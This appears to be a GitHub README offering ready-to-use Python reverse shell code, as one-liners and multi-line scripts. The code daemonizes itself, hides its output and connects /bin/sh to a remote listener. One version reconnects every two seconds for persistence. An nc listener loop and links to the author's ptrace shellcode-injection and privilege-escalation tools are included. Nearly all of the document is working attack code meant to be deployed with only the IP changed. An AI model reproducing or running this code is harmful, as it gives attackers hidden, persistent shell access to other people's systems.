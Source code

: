 # python 2 & 3 reverse shell one liner detached (background) By David Reguera Garcia aka Dreg

just change **connect(("127.0.0.1",9999))**

## Simple reverse shell
```
python -c 'exec("""\nimport socket,subprocess,os,sys\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\n\nos.setsid()\n\nos.umask(0)\n\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nsys.stdout.flush()\n\nsys.stderr.flush()\n\nfdreg = open("/dev/null", "w")\n\nsys.stdout = fdreg\n\nsys.stderr = fdreg\n\nsdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\nsdregs.connect(("127.0.0.1",9999))\n\nos.dup2(sdregs.fileno(),0)\n\nos.dup2(sdregs.fileno(),1)\n\nos.dup2(sdregs.fileno(),2)\n\np=subprocess.call(["/bin/sh","-i"])\n""")'
```

## Infinite loop reverse shell each 2 seconds:
```
 python -c 'exec("""\nimport socket,subprocess,os,sys, time\n\npidrg = os.fork()\nif pidrg > 0:\n        sys.exit(0)\n\nos.chdir("/")\nos.setsid()\nos.umask(0)\ndrgpid = os.fork()\nif drgpid > 0:\n        sys.exit(0)\n\nwhile 1:\n        try:\n                sys.stdout.flush()\n\n                sys.stderr.flush()\n\n                fdreg = open("/dev/null", "w")\n\n                sys.stdout = fdreg\n\n                sys.stderr = fdreg\n\n                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\n\n                sdregs.connect(("127.0.0.1",9999))\n\n                os.dup2(sdregs.fileno(),0)\n\n                os.dup2(sdregs.fileno(),1)\n\n                os.dup2(sdregs.fileno(),2)\n\n                p=subprocess.call(["/bin/sh","-i"])\n\n                sdregs.close()\n\n        except Exception:\n                pass\n\n        time.sleep(2)\n""")'
```

Just wait for reverse shell with a nc
```
while true; do nc -lvp 9999; done
```

---

I made this for my shellcode injector in sudo shells via ptrace:

https://github.com/David-Reguera-Garcia-Dreg/drx_ptrace_shellcode_injector

https://github.com/David-Reguera-Garcia-Dreg/ptrace_misconfiguration_local_privilege_escalation

https://github.com/David-Reguera-Garcia-Dreg/

http://www.fr33project.org

dreg@fr33project.org

## multi line code

### Simple reverse shell 

```
#!/usr/bin/env python

# David Reguera Garcia aka Dreg
# https://github.com/David-Reguera-Garcia-Dreg/
# http://www.fr33project.org
# dreg@fr33project.org

import socket,subprocess,os,sys

pidrg = os.fork()
if pidrg > 0:
	sys.exit(0)

os.chdir("/")

os.setsid()

os.umask(0)

drgpid = os.fork()
if drgpid > 0:
	sys.exit(0)

sys.stdout.flush()

sys.stderr.flush()

fdreg = open("/dev/null", "w")

sys.stdout = fdreg

sys.stderr = fdreg

sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

sdregs.connect(("127.0.0.1",9999))

os.dup2(sdregs.fileno(),0)

os.dup2(sdregs.fileno(),1)

os.dup2(sdregs.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

### Infinite loop reverse shell each 2 seconds

```
#!/usr/bin/env python

# David Reguera Garcia aka Dreg
# https://github.com/David-Reguera-Garcia-Dreg/
# http://www.fr33project.org
# dreg@fr33project.org

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()

                sys.stderr.flush()

                fdreg = open("/dev/null", "w")

                sys.stdout = fdreg

                sys.stderr = fdreg

                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

                sdregs.connect(("127.0.0.1",9999))

                os.dup2(sdregs.fileno(),0)

                os.dup2(sdregs.fileno(),1)

                os.dup2(sdregs.fileno(),2)

                p=subprocess.call(["/bin/sh","-i"])

                sdregs.close()

        except Exception:
                pass

        time.sleep(2)
```

---

http://jagt.github.io/python-single-line-convert/
